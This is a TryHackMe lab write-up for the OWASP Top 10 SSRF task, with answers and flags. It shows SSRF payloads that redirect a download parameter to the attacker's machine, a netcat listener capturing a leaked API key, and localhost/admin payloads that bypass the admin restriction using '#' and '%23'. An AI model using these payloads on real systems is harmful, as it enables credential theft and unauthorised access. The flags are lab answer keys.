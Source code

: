 #### What kind of attack is being carried out?

	brute force

## Task 22 - 10. Server-Side Request Forgery (SSRF)

#### Navigate to [http://10.10.4.17:8087/](http://10.10.4.17:8087/)

#### Explore the website. What is the only host allowed to access the admin area?
		localhost

- si vamos a > http://10.10.4.17:8087/admin
```
Admin interface only available from localhost!!!
```


#### Check the "Download Resume" button. Where does the server parameter point to?

		secure-file-storage.com

http://10.10.4.17:8087/download?server=secure-file-storage.com:8087&id=75482342

#### Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?

		THM{Hello_Im_just_an_API_key}

```
http://10.10.4.17:8087/download?server=10.6.13.236:8087&id=75482342


┌──(kali㉿kali)-[~/tryhackme/owasptopten2021]
└─$ nc -lnvp 8087      
listening on [any] 8087 ...
connect to [10.6.13.236] from (UNKNOWN) [10.10.4.17] 48210
GET /public-docs-k057230990384293/75482342.pdf HTTP/1.1
Host: 10.6.13.236:8087
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
X-API-KEY: THM{Hello_Im_just_an_API_key}



```


#### Extra

10.10.4.17:8087/download?server=localhost:8087/admin&id=75482342
10.10.4.17:8087/download?server=localhost:8087/admin#&id=75482342
10.10.4.17:8087/download?server=localhost:8087/admin%23&id=75482342


The flag is thm{c4n_i_haz_flagz_plz?}


